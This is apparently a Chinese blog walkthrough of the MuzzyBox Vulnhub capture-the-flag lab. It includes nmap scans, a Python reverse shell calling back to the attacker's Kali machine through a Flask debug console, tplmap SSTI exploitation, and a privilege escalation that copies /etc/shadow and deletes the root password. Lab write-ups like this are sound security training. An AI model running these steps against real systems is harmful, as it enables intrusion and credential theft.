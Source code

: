 ```yaml
---
title: 'MuzzyBox: 1: Walkthrough'
date: 2020-05-01T15:57:36+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`nmap -sn 192.168.1.1/24`

### 网络拓扑

| 计算机      | IP              |
| -------- | --------------- |
| Kali     | `192.168.1.107` |
| MuzzyBox | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`

![2.png](https://i.loli.net/2020/05/01/46Q9Ax3bFDZhXHS.png) 

### 访问Web并确认web应用

访问 _80_ 端口我们看到有三个挑战，看来需要逐个通过这些挑战

### 挑战 1

![3.png](https://i.loli.net/2020/05/01/Y6NAxrsUJdujgVv.png) 

根据页面信息是需要上传一张图片来识别，刚开始认为是参考图片中存在某些信息，不过分析过后并没有什么特别。多次尝试后又根据提示是需要上传它的 _screenshot_，看来是要修改这个_idcard_

![idcard.png](https://i.loli.net/2020/05/01/vO2NztCad5UfTMu.png) 

![4.png](https://i.loli.net/2020/05/01/YlrsChJMj73gDqS.png) 

> 得到第一个重要信息：`P!N_!$_123-456-789}` 

### 挑战 2

这是一个 `_Flask_` 应用，并且打开了 **debug** 调试模式，可能可以执行系统命令[^1]

![5.png](https://i.loli.net/2020/05/01/YRNiH6SQbIvdZBW.png) 

将该代码复制到 `_console_` 执行，并在 Kali 上开启监听即可 `_getshell_`

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.107",6677));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

![6.png](https://i.loli.net/2020/05/01/CniExk3mTVRt75y.png) 

> 得到第二个重要信息：`N$cTF{R34D_F!L3_/home/webssti/noflag.txt}` 

看来我们的下一个目标就是读取该文件：`/home/webssti/noflag.txt`

### 挑战 3

![7.png](https://i.loli.net/2020/05/01/6AltckXs7MmH4CG.png) 

测试发现存在 _XSS_ 漏洞，不过这里是 **SSTI** 漏洞。为了利用该漏洞，使用 **tplmap** 开源工具

```bash
git clone https://github.com/epinna/tplmap.git
cd tplmap/
ls
python2 tplmap.py -u "http://192.168.1.105:15000/page?name=muzzy" --os-shell
```

![8.png](https://i.loli.net/2020/05/01/3zXSPTI2pYcD1Rh.png) 

> 得到第三个重要信息：`ssh nsctf iamnsce` 

接下来我们就是用 _ssh_ 连接虚拟机，并且发现该目录（`/usr/local/sbin`）的用户组是 _nsctf_，也就说明该目录下的命令我们都可以执行

![9.png](https://i.loli.net/2020/05/01/mUTptl6Ez1AYueV.png) 

在该目录下新建 `ls` 文件，并且也可以删除 _root_ 用户的密码

```bash
cat /root/Final_Flag.txt > /home/nsctf/flag.txt
cat /etc/passwd > /home/nsctf/passwd.txt
cat /etc/shadow > /home/nsctf/shadow.txt
passwd -d root
```

![10.png](https://i.loli.net/2020/05/01/cZ3ej5wCyW7K4Vl.png) 

### 总结

虽然通过`uname -r`看到该Linux内核版本是：_4.15.0-88-generic_，经过 OSINT 找到该 exp[^2]，但是需要某些命令支持，并且低权限用户不具备安装软件条件

### Ref.

  * [hackingarticles](https://www.hackingarticles.in/muzzybox-1-vulnhub-walkthrough/)

---

[^1]: Flask 打开 Debug 模式直接 getshell
[^2]: [exploit-db](https://www.exploit-db.com/exploits/47166)
